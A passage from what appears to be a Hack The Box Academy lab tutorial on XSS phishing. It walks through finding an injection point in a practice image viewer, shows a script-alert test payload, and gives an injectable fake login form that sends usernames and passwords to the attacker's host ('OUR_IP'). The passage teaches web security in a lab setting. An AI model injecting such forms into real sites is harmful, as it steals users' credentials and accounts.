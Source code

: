 ## Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

Furthermore, suppose we were to identify an XSS vulnerability in a web application for a particular organization. In that case, we can use such an attack as a phishing simulation exercise, which will also help us evaluate the security awareness of the organization's employees, especially if they trust the vulnerable web application and do not expect it to harm them.

### XSS Discovery

We start by attempting to find the XSS vulnerability in the web application at `/phishing` from the server at the end of this section. When we visit the website, we see that it is a simple online image viewer, where we can input a URL of an image, and it'll display it:
```
http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg
```
![xss_phishing_image_viewer](https://academy.hackthebox.com/storage/modules/103/xss_phishing_image_viewer.jpg)

This form of image viewers is common in online forums and similar web applications. As we have control over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the **dead image url** icon:
```
http://SERVER_IP/phishing/index.php?url=<script>alert(window.origin)</script>
```
![xss_phishing_alert](https://academy.hackthebox.com/storage/modules/103/xss_phishing_alert.jpg)

So, we must run the XSS Discovery process we previously learned to find a working XSS payload. **Before you continue, try to find an XSS payload that successfully executes JavaScript code on the page**.

Tip: To understand which payload should work, try to view how your input is displayed in the HTML source after you add it.

### Login Form Injection

Once we identify a working XSS payload, we can proceed to the phishing attack. To perform an XSS phishing attack, we must inject an HTML code that displays a login form on the targeted page. This form should send the login information to a server we are listing on, such that once a user attempts to log in, we'd get their credentials.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
`OUR_IP` is the IP of our attacker VM.
